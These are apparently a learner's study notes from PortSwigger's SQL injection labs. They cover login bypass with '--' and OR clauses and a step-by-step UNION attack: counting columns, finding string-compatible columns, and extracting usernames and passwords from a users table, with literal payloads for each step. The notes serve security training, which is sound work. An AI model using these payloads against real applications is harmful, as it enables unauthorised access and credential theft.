 ### Portswigger notes

---

1. Finding hidden data    
Using `--` to comment out further checks and retrieve extra data.
Using `OR` clause to make query always true and return extra info.  

  
2. Diverting the logic  
Using `--` to login without checking the password
Using `OR` clause to bypass the further checks  

  
3. Finding extra data  
Using `UNION` and `SELECT`

  
```py
' UNION SELECT username, password FROM users--
```
[UNIION](https://portswigger.net/web-security/sql-injection/union-attacks)

```py
To carry out a SQL injection UNION attack, you need to ensure that your attack meets these two requirements.

This generally involves figuring out:
How many columns are being returned from the original query?
Which columns returned from the original query are of a suitable data type to hold the results from the injected query?
```

---

STEP 1 - To find coloumns :

1. Use `' ORDER BY 1--` to find the columns.
2. a series of UNION SELECT payloads :

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
---

STEP 2 - To find useful columns :

Use a string in each column and check if it is compatible with string data or not !

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--

Gifts'UNION SELECT NULL,'XyFz4U',NULL--
```

---

STEP 3 - To find useful data from useful columns

```sql
' UNION SELECT username, password FROM users--
```

---

STEP 4 - To find multiple values from a column

```sql
' UNION SELECT username || '~' || password FROM users--
```

[Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

